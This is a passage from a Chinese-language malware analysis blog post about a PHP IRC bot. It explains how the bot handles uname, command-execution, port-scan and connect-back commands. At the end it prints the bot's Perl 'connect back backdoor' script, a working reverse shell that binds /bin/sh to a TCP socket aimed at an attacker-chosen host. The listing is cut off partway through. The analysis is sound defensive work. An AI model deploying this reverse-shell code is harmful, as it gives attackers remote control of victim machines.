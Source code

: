 bot会根据PRIVMSG后面的`.command`进入相应的分支

#### uname

![1528254954215](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/1528254954215.png)

![1528254899287](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/1528254899287.png)

在进入对应指令的分支之前先判断当前连接的irc服务器是否在`hostauth`列表，这决定了bot是否接受控制

再一个就是以`.`来作为指令的起始符，这里应该取配置中的`trigger`变量，但是此处被硬编码为`.`

随后便进入`uname`分支调用`php_uname()`方法

#### exec&cmd

执行命令部分有两块可以实现，分别是exec和cmd

![1528255190724](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/1528255190724.png)

其中exec直接调用php内置的exec命令，cmd则是通过自定义方法`Exe()`执行，在`Exe()`方法内部对系统支持的命令执行函数进行了判断，可以通过以下几种方法使命令得到最终执行

![1528255437456](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/1528255437456.png)

#### pscan

可以探测指定ip的端口是否开放

`.pscan ip port`

![1528271275578](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/1528271275578.png)

#### conback

`conback <ip> <port> `

![1528270109767](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/1528270109767.png)

该指令会在尝试在`/tmp/`和`/var/tmp`写入脚本，脚本使用perl语言编写并经过base64编码，执行后会向指定ip反弹一个shell，在连接断开后脚本自动删除。脚本内容如下：

```perl
#!/usr/bin/perl
use Socket;
print "Data Cha0s Connect Back Backdoor\n\n";
if (!$ARGV[0]) {
  printf "Usage: $0 [Host] <Port>\n";
  exit(1);
}
print "[*] Dumping Arguments\n";
$host = $ARGV[0];
$port = 80;
if ($ARGV[1]) {
  $port = $ARGV[1];
}
print "[*] Connecting...\n";
$proto = getprotobyname('tcp') || die("Unknown Protocol\n");
socket(SERVER, PF_INET, SOCK_STREAM, $proto) || die ("Socket Error\n");
my $target = inet_aton($host);
if (!connect(SERVER, pack "SnA4x8", 2, $port, $target)) {
  die("Unable to Connect\n");
}
print "[*] Spawning Shell\n";
if (!fork( )) {
  open(STDIN,">&SERVER");
  open(STDOUT,">&SERVER");
  open(STDERR,">&SERVER");
  exec {'/bin/sh'} '-bash' . "\0" x 4;
  exit(0);
```